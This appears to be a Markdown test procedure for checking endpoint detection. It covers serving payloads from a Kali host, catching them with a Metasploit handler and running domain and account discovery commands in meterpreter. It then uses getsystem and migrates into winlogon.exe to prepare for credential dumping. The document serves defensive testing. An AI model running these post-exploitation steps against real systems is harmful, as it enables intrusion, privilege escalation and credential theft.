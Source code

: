 # Phase 1 Testing

## Payload Delivery

Start this test by starting a web server using python in the same directory your 3 payloads exist on you're Kali system.

```
python3 -m http.server
```

On target machine download the three payloads, record if any alerts fire for this activity. 
You may also try different browsers as that can result in different checks and hooks used by the endpoint software.

If all files are blocked you can either allow the downloads manaually in the security stack or conclude the test.


## Execution

Start you MSF listener on your attacker host. The msf.rc is a configuration file for Metasploit, you can take the contents or download this [file](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/msf.rc), make sure to update the SSL to the certificate you created in the [initial setup phase](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Setup.md#inital-setup-for-msf-testing) and change the LHOST IP to the IP on you Kali machine.

```
sudo msfconsole -r msf.rc
```

Run the three test files from 1 to 3 by simply double clicking, and record the detection results. It is recommended to right click and run at least one of the payloads as Administrator to facilitate later testing for privesc.

## Discovery

The rests of the tests will be ran from out created meterpreter sessions.

First let's run systeminfo on the system:
(session -i start an interactive sessions where N is the number of the meterpreter session your host has established.)
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell


systeminfo
```

The second discover task is to look for connected domain trusts and administrative accounts.

*Execute these commands using a shell that is not SYSTEM but a domain user account*
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

net group "enterprise admins" /domain
net group "domain admins" /domain
```

The third discovery task will look for local accounts and groups.

```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

whoami /groups
net view /all
```

##Local Privilege Escalation

The fourth group of tasks starts with becoming SYSTEM run the following in your meterpreter session:
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > getsystem 
```

After becoming system target a process to inject into, a good recommendation is winlogon.exe as it keeps SYSTEM priv and will stay active as well as make sure you are running a compatible architechure for dumping credentials later.
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

(List Processes with ps)

meterpreter > ps
```
Pick a process that has SYSTEM and is x64

```
Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----

812   708   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```

(Example winlogon.exe)

Run migrate with process id of target
```
meterpreter > migrate 812
[*] Migrating from 7236 to 812...
[*] Migration completed successfully.
```

